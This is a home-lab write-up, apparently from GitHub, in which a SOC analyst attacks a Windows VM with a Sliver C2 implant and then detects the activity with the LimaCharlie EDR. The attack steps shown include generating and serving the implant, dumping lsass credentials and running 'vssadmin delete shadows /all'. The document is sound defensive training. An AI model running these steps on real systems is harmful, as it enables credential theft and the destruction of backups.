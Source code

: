 # SOC Analyst Project with LimaCharlie: Command and Control with Sliver on Ubuntu and Windows

## Windows VM Setup

Preventing the computer from going into sleep/standby mode.
```bash
powercfg /change standby-timeout-ac 0
powercfg /change standby-timeout-dc 0
powercfg /change monitor-timeout-ac 0
powercfg /change monitor-timeout-dc 0
powercfg /change hibernate-timeout-ac 0
powercfg /change hibernate-timeout-dc 0
```

# LimaCharlie Setup
## Sensors

    Primary input for data into LimaCharlie.
    Run on various platforms and send JSON events to LC's cloud.

## Organizations

    Projects and configurations stored in a chosen region.

## Outputs

    Forwarding data to storage solutions like SFTP server or Amazon S3.

## Add-Ons

    Enabling additional features within an organization.

# Creating an Organization within LimaCharlie
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/1121ea3f-d85b-49c7-a6dc-a831f915585b)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/d045965b-cd90-427b-b012-13078dcdc116)


## Installing First Sensor
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/041a764f-7226-4a4d-8b10-9a358745f63c)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/a364897c-c223-41dd-b972-31a05c0d589d)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/2287a3ef-440c-4753-9afe-805b62cb63a1)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/fecb10bd-dd3c-458b-8be4-d24696a5b1cf)

![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/5a9127bb-56bf-45e0-b64a-2cfbd2f5ac33)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/a9581edc-d914-4c09-9995-a850c09dfc1d)

## Configuring LimaCharlie

    Shipping Sysmon event logs alongside EDR telemetry. 
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/7847449c-e302-4408-8de0-cf86de8479c8)
- Some information will be redundant to LimaCharlie's own telemetry but Sysmon is a very powerful visibility tool that runs well alongside and EDR agent. 

## Using SSH Client to Access Ubuntu VM

    Accessing via built-in command prompt on host machine.
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/8659db27-23a6-4ef7-9986-87f219b8e841)
- sudo su
- cd/opt/sliver
- sliver-server


## Sliver C2 Payload Generation

    Generating C2 session payload in Sliver shell.
    generate --http [IP ADDRESS]--save /opt/sliver
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/ab788a58-f973-448c-906c-fcb63deff200)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/737c53cb-46ae-4d59-90b6-9cecb2315976)


## Downloading C2 Payload to Windows VM

    Using Python to create a temporary web server.
    python 3 -m http.server 80

## Initiating HTTP Listener in Sliver
    sliver-server
    http
 ![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/80fe7f98-ae95-4673-a200-042a95cc4a13)
 ![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/503d47f3-cfda-4113-a311-df2168d76fdf)
 ![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/5ffcc47b-dc58-4f4a-98bb-d15c37e729cd)
 ![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/9a33ce99-477c-4b7a-89c4-9c684d4757dd)
 ![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/e75923b6-a520-4cac-ab6b-427064874ced)

## Command Execution and Privilege Escalation

    Executing commands like info, whoami, getprivs, and pwd.
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/0d631658-c3e7-4d1b-8be6-4d0bbf9728aa)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/105352c7-8862-4bad-a598-9d3051ca72d7)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/c24f66c8-07f7-42db-9427-342fd722321d)

- We have a few privileges that make further attack activity much easier!
- Now to identify our implant's working directory with the use of pwd
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/1925fc34-34f6-4d45-acaa-4c74d3512353)

netstat 
- Examine network connections occurring on the remote system
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/8e97804d-c7fe-4817-81de-2ad5f2d927d5)
- Sliver highlights its own process in green
- All defensive tools are in red
- rphcp.exe is the LimaCharlie EDR service executable

Identify running processes on the remote system
- ps -T
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/f2fb3443-0add-4695-815a-08fcd47095ec)
  
## Observing EDR Telemetry in LimaCharlie

    Identifying malicious processes and activities.
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/d1435189-ab6b-458a-9d96-8f520c667d6a)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/dda2bb51-c801-4669-9af3-c42b66b2cf65)

To spot an evil process, you must look for ones that are not signed. 
- While some signed can be malicious, they often are not.
- 
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/ab0c6ba6-3888-4896-bf04-48616e537b2b)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/0ad96894-cdb7-464a-984c-138d9c394acb)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/79c9641c-12e5-493a-bce8-de1e655a0835)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/fcac5616-5f08-49ae-9d30-de5e22d056f0)

- I can see the LimaCharlie rphcp.exe
- I can see a lot of the open Python3 web servers
- Then I see the C2 Payload, which I accidently executed twice.

Navigated to the location where the payload was known to have been downloaded

![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/684e47d5-47a2-40fa-b83f-8e949055407b)

Checking the hash with VirusTotal
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/1661d47f-3bde-49b1-931c-9049e1b5a4b8)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/bae34e64-35c0-456e-b34b-c103208fffea)

- It not being found doesn't make it innocent. We just generated this payload ourselves so it hasn't been found or known to VT yet.
- Nearly everything has already been seen by VT, so this would be a suspicious finding!
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/1c7cb322-6660-46ba-85e4-b95afe55af8b)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/ea2a08a7-9b11-4613-bc61-456c3069d254)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/de5678f9-1a11-4305-9f7f-25385241c68d)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/373dc148-996a-478b-be70-c5f19dac1eb5)

## Response to Credential Dumping

    Detecting and responding to sensitive process access.
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/bcf9b095-4c56-4978-8654-f097d567b133)

Had to relaunch the payload in administrative powershell mode (even though I already did) and was able to get the Enabled SeDebugPriviledge
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/402332f1-92a0-463c-ab1f-a1017c0c019f)

Now I am going to drop the lsass.exe from memory and save it locally on the Sliver C2 server.
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/197b6792-6449-4016-afd4-78b3c9ba6e34)


## Building Detection and Response Rules

    Crafting rules for events like sensitive process access and shadow copies deletion.
- lsass.exe is known sensitive process targeted by credential dumping tools so we should find them in the EDR.
- Drilling into the Timeline of the Windows VM sensor:
- I am going to use the Event Type Filters to filter for sensitive_process_access
  
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/4c2d23a3-4b43-430b-b8c6-a3290cc7ccfb)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/34f37be8-52b5-4e78-894e-740eafbfd7f1)

Telling it to look at SENSITIVE_PROCESS_ACCESS events where the victim or target process ends with lsass.exe
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/9366d54b-3169-4e02-bb0f-4bdeacca7baa)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/6b044a3d-6961-4e75-bbac-29d2c48603da)

LimaCharlie allows for testing of the logic, which we will do in this Target Event section. 
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/47c85b29-9b64-4341-aa7e-69b459e9b0af)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/64c9c510-136f-40a8-a282-371aa74fef4c)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/7e4c1fe0-f47e-475a-b1d7-f5c399b91e9f)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/d14e3fa9-d9f6-460c-8b06-65355cfabeea)

## Blocking Attacks!
Must always properly baseline the environment for false positives else you could cause issues with your environment. 


Volume Shadow Copies provide a convenient way to restore individual files or even an entire file system. It is often used for recovering from ransomware attacks. For this reason, it’s become very predictable that one of the first signs of an impending ransomware attack is the deletion of volume shadow copies. 

Getting back to the SSH session, we will launch a shell via Sliver with "shell"
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/33e43c23-f311-4013-873d-ada8a9ad2134)

We will run the command vssadmin delete shadows /all
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/f9b00c6f-fb29-4270-bf44-512c2375b09b)
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/64285f75-1e10-41c8-b2e6-0ac630b7ea0a)

LimaCharlie picked up on the Shadow Copies Deletion Using OS utilities.
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/06b3f228-b75f-4dfb-a577-6cd9554d7c1c)

It even provides references!
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/6413d9d4-2725-40ef-97e7-ad6cc1cd7fde)

Let's craft a D&R response to the already formatted rule for this event! 
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/96e586e1-ac43-42bc-a969-1e1b4fbbffc4)

Time to try it in the wild. 
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/97f3d9c7-1405-4995-9ea2-2c28b7d5edad)

whoami
![image](https://github.com/CertainRisk/LimaCharlie-Sliver-C2-Project/assets/141761181/68f5e565-89dd-4150-88e7-87164045cecf)

If our rule worked, the system shell will hang and fail to return anything and shut down, which it did!

## Handling False Positives

    Crafting rules to limit false detections.

## Advanced EDR Capabilities

    Adding YARA signatures for malware detection.
